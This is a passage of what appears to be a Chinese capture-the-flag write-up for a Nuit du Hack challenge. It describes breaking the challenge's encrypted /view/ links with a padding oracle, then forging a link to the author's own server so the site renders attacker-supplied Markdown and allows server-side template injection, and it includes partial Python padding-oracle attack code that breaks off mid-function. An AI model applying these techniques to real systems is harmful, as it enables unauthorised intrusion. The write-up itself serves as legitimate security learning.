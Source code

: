 ```
    print "==========================plain==============================="
    print i
    print p
    ans.append(p)
print ans
```

由于服务器比较慢，

所以我是开了两个程序顺序反序一起跑，把第一串和第四串跑出来是个这样的东西，



```
1：https://gist.githubusercontent.com/MarkIsFaillingDownDrunk/b9ed0141c97ae6488379dafa088c04d2/raw/4129795e82bb978e78b00bcb9b9fc4b6acb44898/test.mdx10x10x10x10x10x10x10x10x10x10x10x10x10x10x10x10
4：https://raw.githubusercontent.com/dlitz/pycrypto/master/READMEx02x02
```

访问一下，内容是这个



```
# Welcome to MarkParser !
## This is a simple Markdown test.
Test for dynamic rendering :
[`{``{` config['WEBSITE_NAME'] `}``}`](/)
```

再看看它网页的内容

[![](https://p0.ssl.qhimg.com/t019b6973032197175b.png)](https://p0.ssl.qhimg.com/t019b6973032197175b.png)

这样就明白了,  

也就是说他的 view 后面直接跟的链接。他会读取链接的内容,然后进行 markdown 转换,然后在进行模板渲染。  

所以接下来的思路也就很明确很简单了,让它访问我们的网站预先放好的 md ,然后就是个 ssti 了,通过一些奇怪姿势找

到执行命令或是读取文件的函数就行了。  

这里由于有了第四个链接,所以构造一个目录如下:

第四个密文对应明文: https://raw.githubusercontent.com/dlitz/pycrypto/master/READMEx02x02

我的网页: http://xxx.xxx.xx.xxx:8000/xxxxxxxxxxxxxxxxxxxxx/master/READMEx02x02

最后一组明文和他密文解密出来的一样,这样我就可以维持最后一个分组密文以及倒数第二个分组的密文不变了。然后依

次通过 padding oracle 获取中间值,与构造的密文异或得到构造的密文,从而得到我的网址对应的密文  

至于具体 padding oracle 伪造明文的原理这里不赘述了。  

代码如下:



```
import requests
import base64
import time
url='http://markisfaillingdowndrunk.quals.nuitduhack.com/view/'
N=16
phpsession=""
ID=""
def inject(param):
    result=requests.get(url+param)
    #print result.content
    return result
def xor(a, b):
    print "length",len(a),len(b)
    return "".join([chr(ord(a[i])^ord(b[i%len(b)])) for i in xrange(len(a))])
def pad(string,N):
```